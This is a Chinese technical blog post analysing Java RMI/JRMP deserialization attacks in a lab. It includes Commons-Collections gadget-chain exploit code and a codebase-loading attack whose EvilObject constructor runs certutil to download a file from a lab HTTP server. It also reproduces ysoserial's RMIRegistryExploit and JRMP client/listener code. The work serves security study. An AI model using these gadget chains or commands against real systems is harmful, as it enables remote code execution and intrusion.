









这一篇主要讲述Java RMI（及其实现协议JRMP）相关的反序列化漏洞，内容有点多，断断续续地写了一个月。文章里预测的几种攻击方式几乎都得到了验证，但通过RMI从服务端攻击客户端的实验目前失败了（具体原因还在探寻中），而Ysoserial则利用JRMP的DGC协议实现。
基础知识 RMI是什么 RMI（Remote Method Invocation，远程方法调用）类似于RPC（Remote Process Call，远程过程调用），常被用在分布式环境中（如阿里的Dubbo框架）。假设A主机需要处理大量的计算任务，而B主机这会儿没有任务，这时可以用RMI将一部分任务分给B来做，提高效率。
客户端（A主机）和服务端（B主机）之间的通信实际交给位于各自JVM的Stub（存根）和Skeleton（不知道怎么翻译，但官方说明jdk8以后不再依赖这个组件）执行，而在这期间，RMI registry注册表扮演着图书管理员的角色。具体的实现过程如下图：
当Server有一个Service对象提供给外部调用时，它需要先向注册表登记
当Client需要调用Service对象时，就要先去注册表查询可用的对象名称
注册表会将该对象的存根Stub发送给Client
Client根据事先获知的接口调用需要的方法，参数实际上是交给了自己JVM中的Stub
Stub会将参数序列化后发送给Server上的JVM中的Skeleton
Skeleton将参数反序列化后呈递给Service对象
JVM结合方法声明和参数并将运算结果返回Skeleton
Skeleton再将运算结果发送给Client对象

代码示例 要求：Server端和Client端之间共享一个接口。
1 2 3 4 5 6 7 8 9 10 import java.rmi.Remote;import java.rmi.RemoteException;public interface ImInterface extends Remote public String hello (String a) throws RemoteException }
可以用javac将编译成class文件发给对方，或者直接告诉其源码内容（类名称、方法名称必须相同）
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 import java.rmi.Naming;import java.rmi.Remote;import java.rmi.RemoteException;import java.rmi.registry.Registry;import java.rmi.registry.LocateRegistry;import java.rmi.server.UnicastRemoteObject;public class Rmf_server public class RemoteHelloWorld extends UnicastRemoteObject implements ImInterface private RemoteHelloWorld () throws RemoteException super (); System.out.println("you're in construction." ); } public String hello (String a) throws RemoteException System.out.println("call from" ); return "Hello world" ; } } private void start () throws Exception RemoteHelloWorld h = new RemoteHelloWorld(); Registry registry = LocateRegistry.createRegistry(5599 ); registry.bind("Hello" , h); } public static void main (String[] args) throws Exception new Rmf_server().start(); } } import java.lang.System;import java.rmi.Naming;public class HappyEnding public static void main (String[] args) throws Exception String[] names = Naming.list("rmi://10.10.10.136:5599/" ); for ( String name : names){ System.out.println(name); } ImInterface ss = (ImInterface)Naming.lookup(names[0 ]); String result = ss.hello("ni hao!" ); System.out.println(result); } }
在启动server端后，用client端去连，可以看到调用成功返回的结果：
1 2 3 F:\Studio>java HappyEnding //10.10 .10.136 :5599 /Hello Hello world
环境搭建 为了模拟两机RMI通信，我在VMware上搭建了一个Linux系统（IP：10.10.10.136），宿主机为windows（IP：10.10.10.1）。因为该Linux系统中有VS code，我又装了个gradle来进行包管理。具体流程如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 // linux安装gradle sudo apt install gradle -y // vscode搜索Java Extension Package插件安装 // 新建项目文件夹后，用vsc打开，并在终端中输入： gradle init --type java-application // 修改build.gradle中的仓库地址，原地址jcenter()会指向google的服务器，国内无法连接 // 建议使用阿里云的仓库 /** ** build.gradle **/ repositories { // Use jcenter for resolving your dependencies. // You can declare any Maven/Ivy/file repository here. // jcenter() // mavenCentral() maven { url 'http://maven.aliyun.com/nexus/content/groups/public' } maven { url 'http://maven.aliyun.com/nexus/content/repositories/jcenter' } } // 跟gradle有关的命令： // 编译： gradle build --stacktrace // 运行： gradle run
利用姿势 RMI在启动和通信过程中存在多个序列化与反序列化过程，例如：Client在调用远程方法时会将参数序列化，Server在处理请求时会将参数反序列化；Server在绑定对象到注册机时会先序列化，注册机在登记并生成Stub时会反序列化；Server将结果返回给Client时也会进行序列化，Client再读取结果时再做反序列化操作。
因此，至少存在三种攻击方式。
攻击Server——方法1 先来模拟下攻击Server的过程，既然在RMI通信过程中，Server会将我们（Client）提供的参数反序列化，那我们将恶意类作为参数发给Server，如果Server的classpath存在该恶意类的调用链，就能够形成远程代码执行。根据这一思路，我写了以下代码：
1 2 3 4 5 6 7 dependencies { compile group: 'commons-collections' , name: 'commons-collections' , version: '3.1' }
由于我在Linux服务器上装的jdk版本是1.8，所以直接将之前分析过的Commons-Collections5的payload源码拿过来用：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 import java.lang.System;import java.rmi.Naming;import java.util.HashMap;import java.util.Map;import javax.management.BadAttributeValueExpException;import java.lang.reflect.Field;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.keyvalue.TiedMapEntry;import org.apache.commons.collections.map.LazyMap;public class HappyEnding public static void main (String[] args) throws Exception String[] names = Naming.list("rmi://10.10.10.136:5599/" ); for ( String name : names){ System.out.println(name); } ImInterface ss = (ImInterface)Naming.lookup(names[0 ]); final String[] execArgs = new String[] { "vlc" }; final Transformer[] transformers = new Transformer[] { new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod" , new Class[] { String.class, Class[].class }, new Object[] { "getRuntime" , new Class[0 ] }), new InvokerTransformer("invoke" , new Class[] { Object.class, Object[].class }, new Object[] { null , new Object[0 ] }), new InvokerTransformer("exec" , new Class[] { String.class }, execArgs), new ConstantTransformer(1 ) }; Transformer transformerChain = new ChainedTransformer(transformers); final Map innerMap = new HashMap(); final Map lazyMap = LazyMap.decorate(innerMap, transformerChain); TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo" ); BadAttributeValueExpException val = new BadAttributeValueExpException(null ); Field valfield = val.getClass().getDeclaredField("val" ); valfield.setAccessible(true ); valfield.set(val, entry); String result = ss.hello(val); System.out.println(result); } }
小提示1： 为了方便，Client端我没有创建java项目，因此编译过程需要指定classpath才能完成编译。Windows中gradle默认的jar包下载目录在C:\Users\xxxx\.gradle\caches\modules-2\files-2.1\中，因此编译语句与执行语句如下：
1 2 3 4 5 javac -cp C:\Users\xxxx\.gradle\caches\modules-2 \files-2 .1 \commons-collections \commons-collections \3.1 \40 fb048097caeacdb11dbb33b5755854d89efdeb\commons-collections -3 .1 .jar;. HappyEnding.java java -cp C:\Users\xxxx\.gradle\caches\modules-2 \files-2 .1 \commons-collections \commons-collections \3.1 \40 fb048097caeacdb11dbb33b5755854d89efdeb\commons-collections -3 .1 .jar;. HappyEnding
小提示2： 之前在分析恶意Payload时有一点不太明白，就是有些恶意类看似可以直接装入集合类，但ysoserial的作者们却都选择了“先用正常数据初始化集合类，再用反射机制将恶意类对象替换入集合类”的方法。最初我以为是为了应对命令行参数，这次复现过程中我发现，如果采用直接装入集合类的方式，在有些情况下还没等序列化完成payload就被触发了，导致整个生成过程中断，所以大家采用了后一种方法。可能读者会不知所云，这里举个例子：
1 2 3 4 5 6 7 8 9 BadAttributeValueExpException val = new BadAttributeValueExpException(entry);
运行效果如图：

实际在Server端的调用栈如下图：

因为RCE肯定会执行到BadAttributeValueExpException的ReadObject()方法，所以在这里打了断点守着。
从图中可以看出大致的调用过程：线程池ThreadPool收到连接请求后，对传输数据TCPTransport解析识别，并对其中的数据进行反序列化UnicastRef.unmashalValue()，最后经过java.io的层层调用，到达了恶意类的ReadObject()方法，后面的调用过程这里不再赘述。
攻击Server——方法2 利用JVM动态加载类制发起攻击，该机制的原理类似Unix-like系统的源机制，如果JVM要调用某个类但在当前classpath中找不到其定义，则会按照java.rmi.server.codebase属性（其他默认限制条件都打开）定义的远程地址寻找类的class文件。codebase支持http://、ftp://、file://等协议，举几个会触发远程加载的情形：
对于客户端，如果调用的服务端方法的返回值是某个已知类的子类 ，但客户端本身没有该子类的class文件，客户端就会按服务端提供的codebaseURL去加载类 。
对于服务端，如果客户端传递给方法的参数是原参数类型的子类 ，但服务端没有该子类的class文件，服务端就会按客户端提供的codebaseURL去加载类 。
开启RMI的codebase特性需要满足以下条件：
需要安装RMISecurityManager并且配置java.security.policy。
1 2 3 4 5 6 7 > >import java.lang.SecurityManager; >System.setProperty("java.security.policy" , xxx.class.getClassLoader().getResource("java.policy" ).getFile()); >SecurityManager securityManager = new SecurityManager(); >System.setSecurityManager(securityManager);
在resources文件夹下写入java.policy文件：
1 2 3 4 5 >//Standard extensions get all permissions by default >grant { permission java.security.AllPermission; >};
属性 java.rmi.server.useCodebaseOnly 的值必需为false。从JDK 6u45、7u21开始，其默认值就是true。
1 System.setProperty("java.rmi.server.useCodebaseOnly" ,"false" );
以上特性也可以通过修改jvm启动参数实现：
1 java -Djava.rmi.server.useCodebaseOnly=false -Djava.security.policy="policy.permission" xxx
测试代码如下，首先是客户端、服务端都知道的公共接口：
1 2 3 4 5 6 7 import java.rmi.RemoteException;public interface Services extends java .rmi .Remote Object sendMessage (String msg) throws RemoteException ; }
接着是服务端代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 public class ServicesImpl1 implements Services , Serializable @Override public Object sendMessage (String msg) throws RemoteException Object tt= "FDF" ; try { tt= new EvilObject(); }catch (Exception e){ } return tt; } } import java.io.Serializable;public class EvilObject implements Serializable public EvilObject () throws Exception Runtime.getRuntime().exec("certutil.exe -urlcache -split -f \"http://10.10.10.136:8000/123.txt\" d:\\path_to_desktop\\bad.txt" ); } } import java.rmi.AlreadyBoundException;import java.rmi.RemoteException;import java.rmi.registry.LocateRegistry;import java.rmi.registry.Registry;import java.rmi.server.UnicastRemoteObject;public class testRMI public static void main (String[] args) try { ServicesImpl1 obj = new ServicesImpl1(); Services services = (Services) UnicastRemoteObject.exportObject(obj, 0 ); System.setProperty("java.rmi.server.codebase" , "http://10.10.10.1:8000/" ); System.setProperty("java.rmi.server.useCodebaseOnly" ,"false" ); Registry reg; try { reg = LocateRegistry.createRegistry(9999 ); System.out.println("java RMI registry created. port on 9999..." ); } catch (Exception e) { System.out.println("Using existing registry" ); reg = LocateRegistry.getRegistry(); } reg.bind("Services" , services); } catch (RemoteException e) { e.printStackTrace(); } catch (AlreadyBoundException e) { e.printStackTrace(); } } }
需要注意的是，恶意类应当也实现下Serializable接口，否则客户端调用会报错，而且也不会去请求codebase，但这不影响RCE。在异常产生之前，服务端代码执行的过程已经发生了。紧接着客户端代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 import java.lang.SecurityManager;import java.rmi.registry.LocateRegistry;import java.rmi.registry.Registry;public class testRMI public static void main (String[] args) throws Exception System.setProperty("java.security.policy" , testRMI.class.getClassLoader().getResource("java.policy" ).getFile()); System.setProperty("java.rmi.server.useCodebaseOnly" ,"false" ); SecurityManager securityManager = new SecurityManager(); System.setSecurityManager(securityManager); Registry registry = LocateRegistry.getRegistry("10.10.10.1" , 9999 ); Services services = (Services) registry.lookup("Services" ); services.sendMessage("everybody" ); } }
这里的场景和之前描述的一致，10.10.10.136是一台linux主机，上面开启了http的8000端口，同时也是RMI客户端。10.10.10.1是一台win10主机，也是RMI服务端，它同时提供了codebase的URL地址。客户端在调用方法时因其不知返回值EvilObject类的定义，所以会按照codebase URL去找class文件。服务端依据客户端提供的参数在自己的JVM上实例化对象并执行方法调用，在实例化EvilObject对象时执行了payload。

攻击server——方法3，攻击Registry 其实，只要知道注册机的IP、端口，客户端也可以调用bind()函数绑定RMI对象，这也是存在这种攻击方式的原因。下面分析的攻击代码源自ysoserial工具的exploit/RMIRegistryExploit，主要代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 public static void main (final String[] args) throws Exception final String host = args[0 ]; final int port = Integer.parseInt(args[1 ]); final String command = args[3 ]; Registry registry = LocateRegistry.getRegistry(host, port); final String className = CommonsCollections1.class.getPackage().getName() + "." + args[2 ]; final Class<? extends ObjectPayload> payloadClass = (Class<? extends ObjectPayload>) Class.forName(className); try { registry.list(); } catch (ConnectIOException ex) { registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory()); } exploit(registry, payloadClass, command); } public static void exploit (final Registry registry, final Class<? extends ObjectPayload> payloadClass, final String command) throws Exception new ExecCheckingSecurityManager().callWrapped(new Callable<Void>(){public Void call () throws Exception ObjectPayload payloadObj = payloadClass.newInstance(); Object payload = payloadObj.getObject(command); String name = "pwned" + System.nanoTime(); Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class); try { registry.bind(name, remote); } catch (Throwable e) { e.printStackTrace(); } Utils.releasePayload(payloadObj, payload); return null ; }}); } public static Map<String, Object> createMap ( final String key, final Object val ) final Map<String, Object> map = new HashMap<String, Object>(); map.put(key, val); return map; } public static <T> T createMemoitizedProxy ( final Map<String, Object> map, final Class<T> iface, final Class<?>... ifaces ) throws Exception { return createProxy(createMemoizedInvocationHandler(map), iface, ifaces); } public static InvocationHandler createMemoizedInvocationHandler ( final Map<String, Object> map ) throws Exception return (InvocationHandler) Reflections.getFirstCtor(ANN_INV_HANDLER_CLASS).newInstance(Override.class, map); } public static <T> T createProxy ( final InvocationHandler ih, final Class<T> iface, final Class<?>... ifaces ) { final Class<?>[] allIfaces = (Class<?>[]) Array.newInstance(Class.class, ifaces.length + 1 ); allIfaces[ 0 ] = iface; if ( ifaces.length > 0 ) { System.arraycopy(ifaces, 0 , allIfaces, 1 , ifaces.length); } return iface.cast(Proxy.newProxyInstance(Gadgets.class.getClassLoader(), allIfaces, ih)); }
根据参数分析用法应该为：
1 2 3 4 Usage: java -cp ysoserial-all -0 .x.x.jar ysoserial.exploit.RMIRegistryExploit [targetIP ] [port ] [Payload ] [cmd ] Example: java -cp target\ysoserial-0 .0.6 -SNAPSHOT -all .jar ysoserial.exploit.RMIRegistryExploit 127.0 .0.1 5599 CommonsCollections2 "calc.exe"
利用成功的条件是RMIregistry所在的主机有CommonsCollections2执行需要的类。因为RMI registry经常和RMI server设置于同一台服务器上，所以攻击它也能达到攻击服务器的目的。
分析以上过程，payloadClass由命令行参数2决定，这里是CommonsCollections2。于是主函数初始化了它的实例，并getObject(command)生成了payload（PriorityQueue -> TransformingComparator -> InvokerTransformer -> …）；在得到payload后现将它存入一个hashmap，再用createMemoizedInvocationHandler(hashmap, Remote.class)生成一个Remote接口的代理类。通过bind()函数将这个代理类发送给注册机反序列化。
注册机在收到序列化数据后的处理过程如下图，前面的从线程池接受请求到TCPTransport处理请求的过程这里不再详述，如果想知道细节，可以读这篇→https://xz.aliyun.com/t/2223 ，其中“RMI Server 的 RegistryImpl”章节详细分析了服务端注册表的bind()过程。

这里分析的是中间的过程，看调用栈可知RegistryImpl_Skel的dispatch()方法调用了开启了readObject()，反序列化得到第一个类是AnnotationInvocationHandler，它的readObject()方法：
1 2 3 4 5 6 7 8 9 private void readObject (ObjectInputStream var1) throws IOException, ClassNotFoundException var1.defaultReadObject(); AnnotationType var2 = null ;
var1的defaultReadObject()反序列化出了代理类的Hashmap对象，该对象的key-value又分别反序列化，如图：

value在反序列化时就引发了后面的调用过程（PriorityQueue -> TransformingComparator -> InvokerTransformer -> …），如下： P.S.详见Ysoserial工具解读（二）。

攻击Client （目前这一部分内容代码暂未调通，等待后续补充. . .）
YSOSERIAL中的RMI相关代码 其实ysoserial中的很多代码利用了JDK RMI的实现代码，而且其payloads和exploit文件夹下的代码用途不尽相同，具体如下：
Exploit/JRMPClient —— Payloads/JRMPListener 这俩exp经常一起使用，其用法如下：
1 2 3 4 5 java -jar ysoserial-xxx .jar JRMPListner [port ] > payload.bin java -cp ysoserial-xxx .jar ysoserial.exploit.JRMPClient [targetIp ] [port ] [payload_type ] [payload_arg ]
这里分开介绍一下吧。
Payloads/JRMPListenerPayloads/JRMPListener令服务端开启一个RMI监听端口，要求服务端存在一个反序列化的接口，其调用栈如代码注释所写：
再来看看payload生成代码：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 public class JRMPListener extends PayloadRunner implements ObjectPayload <UnicastRemoteObject > private ActivationGroupImpl withConstructor; public UnicastRemoteObject getObject (final String command ) throws Exception int jrmpPort = Integer.parseInt(command); UnicastRemoteObject uro = withConstructor; Reflections.getField(UnicastRemoteObject.class, "port" ).set(uro, jrmpPort); return uro; }
因为ActivationGroupImpl类和 ActivationGroup类都没实现readObject()方法，所以它们会继承其父类的方法。在反序列化过程中就发生了注解中的调用，最终的效果是在服务端开启特定端口。
Exploit/JRMPClient 既然打出Payloads/JRMPListener后服务端上多了一个TCP端口，接着我们就可以用Exploit/JRMPClient 发起DGC调用了（DGC，Distributed Gabage Collection，分布式垃圾回收，可以看做RMI协议下的一条指令，用来回收对象调用方不再使用的引用），总之会发生与RMI有关的通信。其实现代码如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 public static final void main ( final String[] args ) if ( args.length < 4 ) { System.err.println(JRMPClient.class.getName() + " <host> <port> <payload_type> <payload_arg>" ); System.exit(-1 ); } Object payloadObject = Utils.makePayloadObject(args[2 ], args[3 ]); String hostname = args[ 0 ]; int port = Integer.parseInt(args[ 1 ]); try { System.err.println(String.format("* Opening JRMP socket %s:%d" , hostname, port)); makeDGCCall(hostname, port, payloadObject); } public static void makeDGCCall ( String hostname, int port, Object payloadObject ) throws IOException, UnknownHostException, SocketException InetSocketAddress isa = new InetSocketAddress(hostname, port); Socket s = null ; DataOutputStream dos = null ; try { s = SocketFactory.getDefault().createSocket(hostname, port); s.setKeepAlive(true ); s.setTcpNoDelay(true ); OutputStream os = s.getOutputStream(); dos = new DataOutputStream(os); dos.writeInt(TransportConstants.Magic); dos.writeShort(TransportConstants.Version); dos.writeByte(TransportConstants.SingleOpProtocol); dos.write(TransportConstants.Call); @SuppressWarnings ( "resource" ) final ObjectOutputStream objOut = new MarshalOutputStream(dos); objOut.writeLong(2 ); objOut.writeInt(0 ); objOut.writeLong(0 ); objOut.writeShort(0 ); objOut.writeInt(1 ); objOut.writeLong(-669196253586618813L ); objOut.writeObject(payloadObject); os.flush(); } }
最终造成攻击的前提依然是服务端classpath存在payload执行所需的类，makeDGCCall()方法大体过程就是创建一个socket，并按协议约定的格式向其中填入数据。用一个重写了annotateClass()方法的MarshalOutputStream类将PayloadClass也填入socket的缓冲区，最后用flush()发送出去。
Exploit/JRMPListener —— Payloads/JRMPClient 这俩exp也是配套使用，用法如下：
1 2 3 4 5 java -jar ysoserial-xxx .jar JRMPClient [vpsIP ]:[port ] > payload.bin java -cp ysoserial-xxx .jar ysoserial.exploit.JRMPListener [port ] [payload_type ] [payload_arg ]
Payloads/JRMPClientpayload的生成过程如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 public Registry getObject ( final String command ) throws Exception String host; int port; int sep = command.indexOf(':' ); if ( sep < 0 ) { port = new Random().nextInt(65535 ); host = command; } else { host = command.substring(0 , sep); port = Integer.valueOf(command.substring(sep + 1 )); } ObjID id = new ObjID(new Random().nextInt()); TCPEndpoint te = new TCPEndpoint(host, port); UnicastRef ref = new UnicastRef(new LiveRef(id, te, false )); RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref); Registry proxy = (Registry) Proxy.newProxyInstance(JRMPClient.class.getClassLoader(), new Class[] { Registry.class }, obj); return proxy; }
在生成的payload被反序列化过程中，因为JDK动态代理实际上是生成了$Proxy类对象，其成员变量包括InvocationHandler对象，故会对obj对象（RemoteObjectInvocationHandler类）反序列化，会调用该父类RemoteObject类的readObject()方法：
